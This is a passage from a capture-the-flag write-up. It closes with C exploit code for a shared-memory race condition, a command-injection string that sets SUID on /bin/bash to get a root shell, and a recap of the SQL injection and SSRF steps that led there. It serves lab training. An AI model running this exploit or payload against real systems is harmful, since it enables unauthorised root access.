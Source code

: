 ```c
    }
    if (!key) { fprintf(stderr, "Key not found\n"); return 1; }

    /* 3 ─── attach, overwrite, detach */
    int shmid = shmget(key, 0, 0);            /* size=0 → just look it up   */
    if (shmid == -1) { perror("shmget"); return 1; }

    char *mem = shmat(shmid, NULL, 0);
    if (mem == (char *)-1) { perror("shmat"); return 1; }

    const char *evil =
        "Leaked hash detected > '; chmod +s /bin/bash #";
        /*   └──── closes quote ─┬─┘          └─ comment rest of line      */
    strcpy(mem, evil);                      /* buffer is plenty large       */
    shmdt(mem);

    pclose(proc);                           /* let root process hit popen() */
    system("/bin/bash -p");                 /* pops SUID-root bash          */
    return 0;
}
```
How it works — one paragraph version

- `check_leak` prints the SysV SHM key (0xKEY) before a one-second sleep(1).

- The segment is world-writable (0666), so we shmget()/shmat() it and drop `'; chmod +s /bin/bash #` right after the magic marker string.

- When `notify_user()` wakes up, it builds a `mysql -e '… "%s"'` shell command; our leading single-quote closes that string, `;` starts a new root shell command, and `#` comments out whatever remains → `chmod +s /bin/bash` executes as root.

- Finally the exploit launches `/bin/bash -p`, inheriting the fresh SUID bit.

#### TL;DR

The entire chain hinges on a one-second window where world-writable shared memory is already created but the privileged process has not yet consumed it. By racing into that gap and planting a string that breaks out of -e '…' quoting, we convince root’s shell to `chmod +s /bin/bash`, yielding an instant persistent privilege escalation.

After compiling the exploit on target machine with `gcc exploit.c -o exploit`, we can run it to get a root shell:

![NON](file-20250530184634666.png)

## Quick Recap
We exploited a `SQL Injection` vulnerability in `Teampass` to obtain user credentials for `ssh` and `bookstack`, since `ssh` was protected with mfa, we tried enumerating other services. After logging into `bookstack`, we exploited a `Server Side Request Forgery (SSRF)` vulnerability to read a file containing a `TOTP` secret, which we used to log in as `reader`. Finally, we reversed the `check-leak.sh` script to find a `race condition` vulnerability in the `check_leak` binary, which allowed us to escalate our privileges to `root`.
